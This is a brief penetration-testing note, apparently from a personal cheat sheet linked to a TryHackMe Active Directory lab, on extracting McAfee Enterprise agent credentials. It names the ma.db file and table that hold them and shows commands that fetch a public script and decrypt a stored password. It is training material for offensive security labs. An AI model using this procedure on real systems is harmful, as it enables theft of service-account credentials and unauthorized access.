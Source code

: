 # McAfee Credentials

[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)

<div class="row row-cols-lg-2"><div>

McAfee Enterprise stores in `C:\ProgramData\McAfee\Agent\DB\ma.db` the credentials used by the agent to connect back to the orchestrator.

With a local administrator access, we can read it and extract the service account username and password.

```ps
$ sqlitebrowser ma.db
```

Look inside the `AGENT_REPOSITORIES` table.
</div><div>

We can decrypt it using [mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption/tree/master) <small>(0.1k ⭐)</small>:

```ps
$ wget "https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py"
$ python -m venv venv && source venv/bin/activate
$ pip3 install pycryptodome
$ python mcafee_sitelist_pwd_decrypt.py "jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=="
Crypted password   : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
Decrypted password : MyStrongPassword!
```
</div></div>